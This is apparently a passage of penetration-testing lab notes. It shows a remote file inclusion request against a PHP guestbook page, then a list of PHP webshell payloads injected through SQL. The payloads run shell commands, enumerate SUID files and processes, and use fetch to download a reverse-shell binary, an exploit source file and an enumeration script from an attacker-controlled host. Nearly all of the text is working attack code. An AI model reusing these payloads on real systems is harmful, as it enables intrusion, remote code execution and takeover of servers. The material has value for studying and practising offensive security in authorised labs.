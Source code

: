 Then I executed the script with the LFI on the target

```
http://10.11.4.94/addguestbook.php?name=Test&comment=Which+lang%3&LANG=http://10.11.0.202/ping.txt%00&Submit=Submit

```
### PHP Webshell stuff

```
<?php echo shell_exec(*dollar-sign*_GET['cmd']);?>

<?php phpinfo()?>

<?php echo shell_exec('ping -n 1 10.11.0.202');?>

<?php *dollar-sign*output = shell_exec("/bin/pwd"); echo "<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/bin/ls -la"); echo "<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("whereis cat 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1
cat: /bin/cat /usr/share/man/man1/cat.1.gz /usr/src/bin/cat

<?php *dollar-sign*output = shell_exec("/usr/bin/find / -perm -4000 -type f 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/usr/bin/find / base64 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("ps aux");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID =
Listing directorys and permissions

<?php *dollar-sign*output = shell_exec("/usr/bin/find / ! -user root -type d -ls");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1
proof of concept below

<?php *dollar-sign*output = shell_exec("/usr/bin/perl /usr/local/databases/evil.pl");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec('/usr/bin/fetch -o /var/tmp/21bsd http://10.11.0.202/bsd21rev');echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/usr/bin/fetch -o /var/tmp/28718.c  http://10.11.0.202/28718.c");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/usr/bin/fetch -o /var/tmp/LinuxEnum.sh  http://10.11.0.202/LinuxEnum.sh");echo"

<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

```
